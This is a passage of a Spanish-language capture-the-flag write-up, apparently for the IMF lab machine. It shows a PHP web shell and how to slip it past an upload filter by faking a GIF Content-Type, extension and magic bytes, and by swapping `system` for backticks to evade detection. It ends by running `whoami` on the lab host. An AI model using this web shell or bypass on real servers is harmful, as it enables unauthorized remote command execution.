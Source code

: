 Como el backend es `php` podemos intentar subir un código que nos permita ejecutar comandos:

```php
<?php echo system($_GET['cmd']); ?>
```

Esto nos permite ejecutar comandos con un parámetro `cmd`.

Si intentamos subir este archivo `php` nos dirá que no se permiten este tipo de archivos. Para que nos permita subir este archivo, tenemos que interceptar la petición y cambiar lo siguiente:

- El Content-Type a algo como `image/gif` en mi caso.
- La extensión a `.gif`
- Y el comienzo del archivo a `GIF8;`
- Cambiar el `system` del script ya que lo detecta como malicioso. Para ello envuelve el `$_GET['cmd']` con \`\`.

En mi caso lo hago con `.gif` ya que a la hora de referenciar este archivo podremos ver el resultado de los comandos.

Este es el resultado:

![](/assets/images/vh-writeup-imf/file%20upload.png)

Como se puede ver, nos da un hash en la respuesta. Este será el nombre del archivo con el que se guardará. Si fuzzeamos en `imfadministrator` podremos encontrar la carpeta `uploads`.

Si accedemos a `http://imf.local/imfadministrator/uploads/<hash>.gif?cmd=whoami` podremos ver lo siguiente:

![](/assets/images/vh-writeup-imf/rce.png)
